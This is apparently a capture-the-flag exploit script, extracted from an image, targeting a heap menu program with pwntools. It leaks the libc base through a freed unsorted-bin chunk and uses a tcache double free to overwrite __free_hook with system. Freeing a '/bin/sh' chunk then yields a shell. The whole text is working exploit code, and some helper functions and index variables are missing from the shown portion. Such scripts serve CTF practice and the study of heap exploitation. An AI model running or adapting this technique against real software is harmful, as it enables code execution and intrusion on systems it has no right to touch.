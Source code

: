 ```plain
show_idx = 3

def dbg():
   gdb.attach(proc.pidof(p)[0])
   pause()


def choice(cho):
    sla('> ',cho)

def add(idx,size,con):
    choice(add_idx)
    sla('Index?\n',idx)
    sla('Size?\n',size)
    p.sendlineafter('content: ',con)

def delete(idx):
    choice(free_idx)
    sla('Index?\n',idx)

def show(idx):
    choice(show_idx)
    sla('Index?\n',idx)

add(0,0x100,'aaa') #F
add(1,0x100,'bbb') #C

for i in range(2,9):
    add(i,0x100,'eee')

for i in range(2,9):
    delete(i)

delete(1)
show(1)
libc_base=l64()-0x1ecbe0
li('libc_base = '+hex(libc_base))
free_hook=libc_base+0x1eee48
system=libc_base+0x52290

delete(0)

add(2,0x100,'tcache')
delete(1) #double free

add(3,0x70,'111')
add(4,0x80,'222')
add(5,0x90,p64(free_hook))

add(6,0x100,'/bin/sh\x00')
add(7,0x100,p64(system))

delete(6)


itr()
```
